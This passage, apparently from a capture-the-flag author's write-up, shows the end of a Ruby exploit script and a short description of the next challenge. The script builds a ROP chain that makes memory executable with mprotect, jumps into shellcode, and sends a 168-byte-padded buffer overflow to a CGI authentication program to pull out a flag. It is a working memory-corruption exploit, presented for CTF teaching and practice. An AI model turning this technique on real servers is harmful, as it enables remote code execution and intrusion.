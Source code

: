 ```
  SHELLCODE.length,

  POP_RDX_POP_RBX_RET,
  PROTECT_READ_WRITE_EXEC,
  INDIFFERENT_VALUE,

  MPROTECT, # memprotect(WRITABLE_MEMORY, (length), +rwx)
].pack('q*')

# Finally, return into the shellcode (which has an exit at the end)
stack += [
  # Return into the shellcode
  WRITEABLE_MEMORY,
].pack('q*')

# Return address offset from the start of the buffer
PADDING = 168

# Exploit = the padding + our ROP stack
EXPLOIT = ("A" * PADDING) + stack

# File.write("/tmp/exploit.bin", EXPLOIT)
# system "CONTENT_LENGTH=#{EXPLOIT.length} gdb ../challenge/src/auth.cgi"
# exit

# Send the payload
HOST, PORT = get_host_port()
puts "Connecting to #{HOST}:#{PORT}..."
s = TCPSocket.new(HOST, PORT)
s.write(
  "GET /cgi-bin/auth.cgi HTTP/1.0\r\n" +
  "Content-Length: #{EXPLOIT.length}\r\n" +
  "\r\n" +
  "#{EXPLOIT}"
)

flag = s.read.split(/\n/).pop

check_flag(flag, terminate: true)
```

# Part 3: `cant-get-in-securer`

The only changes on `cant-get-in-securer` are:

1. The payload is now encrypted with [Salsa20](https://github.com/alexwebr/salsa20) - that's my friend Alex's totally-unmaintained codebase
2. I stripped symbols so it'd be harder to tell

The goal is to make players either reverse engineer the encryption, or, better, to use a debugger to capture the encrypted payload! The key/nonce are static, so if you catch one pair, you get everything you need.
